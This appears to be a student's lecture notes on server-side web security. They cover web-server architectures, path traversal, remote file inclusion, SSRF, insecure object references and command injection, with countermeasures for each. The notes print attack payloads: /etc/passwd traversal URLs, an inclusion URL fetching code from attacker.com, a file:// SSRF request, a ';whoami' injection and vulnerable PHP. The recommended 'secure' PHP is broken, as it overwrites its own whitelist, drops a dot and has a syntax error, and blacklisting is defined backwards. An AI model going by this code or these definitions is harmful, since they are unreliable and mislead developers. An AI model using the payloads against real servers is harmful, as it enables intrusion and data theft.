


# 12 - Server-side Security

## Web-server Architectures

### CGI Scripting

**Common Gateway Interface** (CGI) is a way for web servers to execute programs that execute like command-line programs. The server passes requests to an appropriate executable, running one process per request. HTTP request data is passed in via standard input/output, but other things such as headers, arguments, and URL paths are presented as process environment variables.



### Server-side Scripting

This is where the server directly executes script. This tends to be faster than CGI and more powerful because it can reconfigure the server. This also makes it more dangerous.

### FastCGI

In **FastCGI** there is a persistent process that handles multiple requests. These processes are owned by the FastCGI server, not the web server. The web server used **TCP** or **local sockets** to talk to an **app server** (which can be remote). This makes load balancing easy.

### Reverse Proxy

A **reverse proxy** is a type of web server that retrieves resources on behalf of a client from one or more servers. These are then returned to the client, appearing as if they originated from the client itself.


The reverse proxy server is lean, fast, secure, and handles static conect, TLS termination etc. It can also be used for **load balancing** and **caching**. The application server can focus on application logic.

## Comprimising a Web Server



To comprimise a server, we have already covered some techniques. Attack tree:

1. Compromise server
   1. Use social engineering
   2. Use an insider
   3. Exploit OS network stack
   4. Compromise other applications and services
   5. Compromise web server

Focusing on 5.

5. Compromise web server
   1. Compromise daemon
      1. Exploit a known vulnerability
      2. Exploit a new vulnerability
   2. Exploit insecure configuration
      1. Exposed CGI scripts, default pages and applications
   3. Compromise the server via the web application

## Path Traversal

This is where attacker inputs cause the server to disclose an unintended resource.

Examples:

- `http://www/example.com/../../etc/passwd`
- `http://www.example.com/images/download.asp?name="../../etc/passwd"`

Attackers can guess URLs, or can use a crawling application. 

### Countermeasures

- A special `www` user can be created for the web app server with only access to public files.
- Web app process sanboxed to a virtual file system using `chroot jail`
  - Changes the apparent root directory for the process
  - File descriptors are a possible attack vector
- Use further access control restrictions

## Remote File Inclusion

Vulnerable code:

```PHP
$nextpage = $_REQUEST["subpage"];
include($nextpage.".php");
```

If `php.ini`settings allow `allow_url_fopen=1` then file operations can follow URLs. So `http://example.com/index.php?subpage=http://attacker.com/evil`will `include` (=execute) `http://attacker.com/evil.php` on our server. Other dangerous functions are

- `include_once()` same as include, but only does it once.
- `require()` almost identical to include, but fails whereas `include` gives a warning.
- `require_once()` see above.
- `fopen()` opens a file or URL.
- `readfile()` outputs a file.
- `file_get_contents()` reads an entire file into a string.

To be secure, the following pattern should be used

```php
$nextpages = array("blog", "admin", "profile"); // Whitelist of page names
$nextpages = $_REQUEST["subpage"];
if (!in_array($nextpage, $nextpages)) { 
    echo "Invalid request!"; 
}
else {
    $file = $nextpage."php";
    if (!file_exists($file)) { 
        echo "File not found"!; 
    } else {
        include($file);
    } 
}
```

## Server-side Request Forgery

An attack where the attacker can supply a URL which the server will read or submit data to. Any requests that the server makes are beyond the firewall and have server privileges, and may address the internal network. Examples:

- Data exfiltration `GET /?url=file:///etc/passwd HTTP/1.1`
- Port scanning `GET /?url=http://127.0.0.1:22 HTTP/1.1`

### Countermeasures

- Prevent the user from providing URLs.
- Whitelist requests that the server can make.
- Don't handle unexpected responses.

## Untrusted Query String

This is where the attacker tampers with the URL query string.

### Insecure Direct Object References

```
update.php?account={target_id}&action=unsubscribe
```

The application exposes a reference to an internal implementation object (user ID). The attacker can guess a valid ID to target a different user.

### Missing Function-level Access Control

``` 
update.php?account=userid&action=upgrade_to_root
```

This will be accepted on the server without additional checks, even if it was not a choice available to the user on the client side.

### Countermeasures

- Don't trust user input.
- Deny operations by default, enable only after authorisation checks.
- Bind user parameters to user session.

### Command Injection

This is where attacker input causes the execution of desired commands on the server.

```
http://example.com/ping_app/ping?ip=192.168.0.1;whoami
```

Example of PHP injection:

```php
$in = $_GET["param"];
eval("$out = " . $in . ";");
```

Example of shell command injection:

```php
$email = $_POST["email"];
$subject = $_POST["subject"];
system("mail $email -s $subject < tmp/text")
```

### Countermeasures

- Blacklisting: only allow inputs matching a forbidden pattern
  - Caveat: blacklists are fragile, and the attacker may find new dangerous parameters not in the list.
- Whitelisting: allow only inputs matching an allowed pattern.
  - More robust, but tricky to avoid false positives.
- Static and dynamic analysis.

## Attacks on the Application

Application logic can be subverted. Memory corruption can be used to attack on a low level. Examples

- Buffer overflow
- Format-string abuse
- Integer over/underflow
- Use-after-free, double-free

### Other Server Security Issues

- Brute forcing
- Sensitive data exposure
  - Sensitive comments
  - Leaked system configurations from verbose error messages